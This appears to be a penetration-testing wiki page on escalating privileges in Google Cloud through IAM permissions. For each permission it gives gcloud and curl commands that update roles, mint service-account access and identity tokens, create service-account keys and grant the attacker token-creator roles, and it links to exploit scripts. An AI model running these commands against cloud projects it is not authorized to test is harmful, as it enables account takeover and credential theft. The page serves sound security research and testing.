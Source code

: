 # GCP - IAM Privesc

## IAM

Find more information about IAM in:

[[../gcp-services/gcp-iam-and-org-policies-enum.md]]

### `iam.roles.update` (`iam.roles.get`)

An attacker with the mentioned permissions will be able to update a role assigned to you and give you extra permissions to other resources like:

```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```

You can find a script to automate the **creation, exploit and cleaning of a vuln environment here** and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

An attacker with the mentioned permissions will be able to **request an access token that belongs to a Service Account**, so it's possible to request an access token of a Service Account with more privileges than ours.

```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
  auth print-access-token
```

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

An attacker with the mentioned permissions will be able to **create a user-managed key for a Service Account**, which will allow us to access GCP as that Service Account.

```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Note that **`iam.serviceAccountKeys.update` won't work to modify the key** of a SA because to do that the permissions `iam.serviceAccountKeys.create` is also needed.

### `iam.serviceAccounts.implicitDelegation`

If you have the **`iam.serviceAccounts.implicitDelegation`** permission on a Service Account that has the **`iam.serviceAccounts.getAccessToken`** permission on a third Service Account, then you can use implicitDelegation to **create a token for that third Service Account**. Here is a diagram to help explain.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Note that according to the [**documentation**](https://cloud.google.com/iam/docs/understanding-service-accounts), the delegation of `gcloud` only works to generate a token using the [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) method. So here you have how to get a token using the API directly:

```bash
curl -X POST \
    'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
    -H 'Content-Type: application/json' \
    -H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
    -d '{
        "delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
        "scope": ["https://www.googleapis.com/auth/cloud-platform"]
    }'
```

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **sign of arbitrary payloads in GCP**. So it'll be possible to **create an unsigned JWT of the SA and then send it as a blob to get the JWT signed** by the SA we are targeting. For more information [**read this**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **sign well-formed JSON web tokens (JWTs)**. The difference with the previous method is that **instead of making google sign a blob containing a JWT, we use the signJWT method that already expects a JWT**. This makes it easier to use but you can only sign JWT instead of any bytes.

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` [](#iam.serviceaccounts.setiampolicy)

An attacker with the mentioned permissions will be able to **add IAM policies to service accounts**. You can abuse it to **grant yourself** the permissions you need to impersonate the service account. In the following example we are granting ourselves the `roles/iam.serviceAccountTokenCreator` role over the interesting SA:

```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
	--member="user:username@domain.com" \
	--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
    --member="user:username@domain.com" \
    --role="roles/iam.serviceAccountUser"
```

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

The **iam.serviceAccounts.actAs permission** is like the **iam:PassRole permission from AWS**. It's essential for executing tasks, like initiating a Compute Engine instance, as it grants the ability to "actAs" a Service Account, ensuring secure permission management. Without this, users might gain undue access. Additionally, exploiting the **iam.serviceAccounts.actAs** involves various methods, each requiring a set of permissions, contrasting with other methods that need just one.

#### Service account impersonation [](#service-account-impersonation)

Impersonating a service account can be very useful to **obtain new and better privileges**. There are three ways in which you can [impersonate another service account](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account):

- Authentication **using RSA private keys** (covered above)
- Authorization **using Cloud IAM policies** (covered here)
- **Deploying jobs on GCP services** (more applicable to the compromise of a user account)

### `iam.serviceAccounts.getOpenIdToken`

An attacker with the mentioned permissions will be able to generate an OpenID JWT. These are used to assert identity and do not necessarily carry any implicit authorization against a resource.

According to this [**interesting post**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), it's necessary to indicate the audience (service where you want to use the token to authenticate to) and you will receive a JWT signed by google indicating the service account and the audience of the JWT.

You can generate an OpenIDToken (if you have the access) with:

```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```

Then you can just use it to access the service with:

```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```

Some services that support authentication via this kind of tokens are:

- [Google Cloud Run](https://cloud.google.com/run/)
- [Google Cloud Functions](https://cloud.google.com/functions/docs/)
- [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
- [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (if using Google OIDC)

You can find an example on how to create and OpenID token behalf a service account [**here**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

